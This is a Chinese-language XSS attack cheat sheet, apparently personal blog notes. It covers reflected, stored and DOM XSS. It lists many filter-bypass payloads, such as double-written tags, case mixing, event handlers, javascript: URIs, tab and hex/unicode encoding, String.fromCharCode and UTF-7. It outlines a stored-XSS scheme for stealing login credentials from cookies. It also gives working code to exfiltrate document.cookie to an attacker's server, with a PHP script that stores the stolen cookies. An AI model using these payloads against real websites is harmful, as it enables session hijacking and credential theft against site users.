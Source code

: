 ```yaml
---
published: true
---
```

## XSS
   指恶意攻击者往Web页面里插入恶意html代码，当用户浏览该页之时，嵌入Web里面的html代码会被执行，从而达到恶意用户的特殊目的。  
### Reflect xss： 
   它通过给别人发送带有恶意脚本代码参数的URL，当URL地址被打开时，特有的恶意代码参数被HTML解析、执行。它的特点是非持久化，必须用户点击带有特定参数的链接才能引起。下面博客很好的讲述了反射型XSS的利用:  
http://netsecurity.51cto.com/art/201311/417201.htm  

对于xss防御的绕过方式：   
1.双写绕过  
输入
'''

	<sc< script>ript>alert(/xss/)< /script>
'''  

2.大小写混淆绕过  
< ScRipt>alert(/xss/)< /script>   
3.< img src=1 onerror=alert(/xss/)>  
4.当<>被转译为&lt时  
 " onmouseover=alert(document.domain) x=“  （x=" 用于闭合  “>）  
 或者 " onmouseover=alert(document.domain)>  
5.javascript :alert();#js伪协议在a标签的使用,可以在输入时构造a标签  
   < a  href=javascript :alert(1)>test< /a>  
6.当script被替换xscript时，尝试用tab制表(%09)绕过  
  < a href=javas%09cript:alert(1)>test< /a>  
但是制表符使用在单个标签之内，会被浏览器`正确`去除，然而在跨标签的时候（即闭合前面原有标签，使用在构造者构造的新标签的时候)不会被消除，使用&#09 tab制表符html十进制编码：javascri&#09pt:alert()   

7.特殊字符进行轮换，比如'(单引号)转换为\'，"(双引号)转换为\" ，\转换为\\。   
javascript中的String.fromCharCode方法来绕过，我们可以把alert("XSS");转换为   
String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41)那么我们的XSS语句就变成了 
< script>String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41, 59)< /script>    
(String.fromCharCode()是javascript中的字符串方法，用来把ASCII转换为字符串。)   
8.进行hex编码来绕过XSS。  
< script>alert("xss");< /script> 可以转换为：   
%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%22%78%73%73%22%29%3b%3c%2f%73%63%72%69%70%74%3e

### Stored  xss  
把恶意脚本存储到被攻击者的网站的数据库。其他人访问数据库中的恶意脚本代码后，浏览器执行恶意脚本。 
思路  
1.通过nodeJS在后端开启两个不同端口的服务，即两个不同域的站点。  
2.被攻击者网站  
 a:在登录时，把用户的用户名、密码信息存入cookie中  
 b.有一个评论功能，用户在文本框内输入评论信息，然后提交到服务器。  
3.攻击者在评论处输入< script src='hack.js'>< /script>,点击提交后这段脚本存入到数据库  
 hack.js文件是攻击者网站的js脚本文件，用来获取用户的cookie中的用户名、密码信息，并且把用户名、密码发送到攻击者指定的网站。  
4.当网站的用户访问带有评论< script src='hack.js'>< /script>信息时，会下载hack.js文件，并且执行，网站被攻击。  

### DOM XSS 
由于文档的某些输入输出没有过滤，攻击者可以插入js代码，在客户端进行攻击造成xss攻击。 常见于：document.location,document.URL,document.URLUnencoded,document.referrer,windows.location等 
若插入的js被另一个文档对象所操作那么可以叫它为dom xss。   

1、构造document.write()的playload，如果<>被过滤时，可以使用16进制编码<变为\x3c，>为\x3e    
		\x3cscript\x3ealert(document.domain);\x3c/script\x3e 
  但是document.write在输出的时候会JavascriptDecode一下数据，会把数据原有\去除，所以要变为  
  \\x3cscript\\x3ealert(document.domain);\\x3c/script\\x3e   
2、\x不起作用可以考虑unicode编码   
     \\u003cimg src=x onerror=alert(document.domain)\\u003e   

### 当你注入了js，如何取得cookie呢？
1.编写js脚本利用存储型xss漏洞（留言板）来传输cookie到自己的服务器端  
      < script>  
      Var cook =document.cookie;   
      Var  img =‘< img src=“自己的服务器ip/get.php？cookie=‘+encodeURL(cook)+’ “ />’;  
      Document.write(img)  
      < /script>   
2.本地编写get.php 获取传输的COOKEIE存入xss.txt.    
<?php     
 $cook=isset($_GET(‘cookie’))?$_GET(‘cookie’):NULL;     
file_put_contents(“xss.txt”,$cook);   
?>  
得到cookie后就能进行欺骗，想获得更多信息 查看js的document对象和windows对象，ajax请求.     


XSS小技巧   
1、eval(“alert(1)”);会当作js运行   
2、若是页面没有申明charset=UTF-8，那么可以使用UTF-7构造playload http://toolswebtop.com/text/process/decode/utf-7   
3、使用 ‘ //进行闭合,    ”>来闭合value值   
4、有下拉选择框时，可能注入点不止一个，burp查看修改。可能也需要闭合

